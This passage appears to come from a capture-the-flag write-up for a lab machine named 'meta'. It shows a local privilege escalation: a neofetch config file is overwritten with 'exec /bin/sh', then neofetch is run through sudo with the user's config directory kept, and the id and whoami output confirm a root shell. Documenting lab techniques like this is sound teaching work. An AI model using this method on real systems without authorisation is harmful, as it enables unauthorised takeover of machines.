 After backup the `config.conf` file, I overwrite it with prepared payload.

```bash
thomas@meta:~$ echo 'exec /bin/sh' > .config/neofetch/config.conf 

thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch

# bash

root@meta:/home/thomas# id
uid=0(root) gid=0(root) groups=0(root)

root@meta:/home/thomas# whoami
root
```

I got `root` shell!